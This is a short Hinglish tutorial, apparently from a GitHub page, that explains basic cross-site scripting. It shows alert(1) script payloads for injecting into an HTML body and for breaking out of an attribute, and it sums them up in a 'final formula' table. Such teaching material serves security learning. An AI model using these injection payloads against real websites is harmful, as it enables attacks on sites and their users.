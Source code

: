 # Simple Logic

| Part          | Kaam                                                             |
| ------------- | ---------------------------------------------------------------- |
| `"`           | Attribute (jaise alt, title, etc.) band karne ke liye            |
| `>`           | Tag close karne ke liye (jaise `<img>`)                          |
| Baaki payload | Apna code inject karne ke liye (jaise `<script>`, `<svg>`, etc.) |

---

### ✅ 1. Jab HTML aisa ho:

```<div>YAHAN_INPUT_AAYEGA</div>```

Toh tu seedha yeh de sakta hai:

```<script>alert(1)</script>```

Final HTML:

```<div><script>alert(1)</script></div>```

### ➡️ Kaam karega! Kyun?
Kyunkay tu HTML body mein ho, koi attribute nahi hai, toh <script> direct inject ho jaata hai.

---

### ❌ 2. Jab HTML aisa ho:

```<img src="x" alt="YAHAN_INPUT_AAYEGA">```

Toh ab agar tu sirf script tag de de, toh wo attribute ke andar hi reh jaayega — browser ignore kar dega.

---

### ✅ Toh ab tu kya karega?
Tu yeh dega:

```"><script>alert(1)</script>```
Toh HTML banega:

```<img src="x" alt="">
<script>alert(1)</script>```

- ➡️ Ab attribute close ho gaya
- ➡️ <img> tag band ho gaya
- ➡️ Tera <script> browser ne run kar diya

### Final Formula

| Situation                                                | Kya Inject Karna Hai          |
| -------------------------------------------------------- | ----------------------------- |
| Input directly tag ke andar ho (like `<div>INPUT</div>`) | `<script>alert(1)</script>`   |
| Input attribute ke andar ho (like `alt="INPUT"`)         | `"><script>alert(1)</script>` |

---


